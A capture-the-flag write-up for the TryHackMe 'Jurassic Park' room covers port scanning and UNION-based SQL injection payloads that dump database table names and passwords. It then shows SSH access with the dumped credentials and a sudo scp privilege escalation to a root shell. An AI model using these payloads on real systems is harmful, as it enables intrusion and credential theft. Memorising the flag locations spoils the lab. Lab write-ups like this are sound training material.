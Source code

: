 ```yaml
---
clayout: ctf
title: Jurassic Park
type: TryHackMe
date: 2025-04-12
level: Hard
icon: /ctf/tryhackme/jurassic-park/icon-room.png
image: /ctf/tryhackme/jurassic-park/icon-room.png
banner: /ctf/tryhackme/jurassic-park/banner-room.png
description: A Jurassic Park CTF
ctf-link: https://tryhackme.com/room/jurassicpark
---
```


## Challenge Overview

The target machine hosts a Jurassic Park–themed application. The goal is to enumerate services, identify vulnerabilities, exploit SQL injection to gain credentials, pivot to SSH access, and escalate privileges to root.

## Enumeration

### Nmap

We start with a service scan:

```bash
nmap -sC -sV -p- -oN nmap.txt 10.10.73.33
```

**Results:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

**Key Findings:**

* **SSH** (22/tcp) → OpenSSH 7.2p2 (Ubuntu 16.04)
* **HTTP** (80/tcp) → Apache 2.4.18 serving a simple website

### Web Enumeration

Accessing `http://10.10.73.33` shows a Jurassic Park–themed homepage with a package shop.

![Jurassic Park Home](/ctf/tryhackme/jurassic-park/home.png)

* Package detail pages use the parameter `id` (`item.php?id=1`).
* Injecting a double quote (`"`) into the parameter produces a **MySQL syntax error**, confirming SQL injection.

With the `id` parameter set to `5`, we can see the following page:

![Jurassic Park Item](/ctf/tryhackme/jurassic-park/item-5.png)

Those words `'` `#` `DROP` `-` `username` `@` `----` are blocked, we can't use them in the payload. Using these words, we got this error:

![Jurassic Park Error](/ctf/tryhackme/jurassic-park/sql-injection-error.png)

## Exploitation

### SQL Injection

Testing the injection with UNION queries reveals the number of columns and confirms exploitation is possible.

**Extracting database version:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,VERSION()
```

**Output:**
`5.7.25-0ubuntu0.16.04.2` (Ubuntu 16.04)

**Enumerating tables:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()
```

**Output:**
`items,users`

**Enumerating columns from `users`:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name="users"
```

**Output:**
`id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

**Dumping credentials:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(password) FROM users
```

**Output:**
`D0nt3ATM3,ih8dinos`

### Initial Access (SSH)

With the credentials, we gain SSH access:

```bash
ssh dennis@10.10.73.33
```

```bash
$ id
uid=1001(dennis) gid=1001(dennis) groups=1001(dennis)
```

> [!IMPORTANT] First flag
> `/home/dennis/flag1.txt`

### Second flag

Using `find`, we can find the second flag:

```bash
find / -type f -name "*flag*.txt" 2>/dev/null
```

> [!IMPORTANT] Second flag
> `/boot/grub/fonts/flagTwo.txt`

### Third flag

Using `grep`, we can find the third flag:

```bash
grep -Rsi "flag" /home 2>/dev/null
```

> [!IMPORTANT] Third flag
> `/home/dennis/.bash_history`

## Privilege Escalation

### Sudo Privileges

Checking sudo permissions:

```bash
sudo -l
```

**Output:**

```text
User dennis may run the following commands on ip-10-10-29-186:
    (ALL) NOPASSWD: /usr/bin/scp
```

The `scp` binary is listed, which can be abused via [GTFOBins](https://gtfobins.github.io/gtfobins/scp/#sudo).

![Sudo](/ctf/tryhackme/jurassic-park/gtfobins-scp.png)

### Root Shell via SCP

Following the GTFOBins method:

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

We now have a root shell:

```bash
$ id
uid=0(root) gid=0(root) groups=0(root)
```

> [!IMPORTANT] Fifth flag
> `/root/flag5.txt`

## References

* [GTFOBins – scp](https://gtfobins.github.io/gtfobins/scp/#sudo)
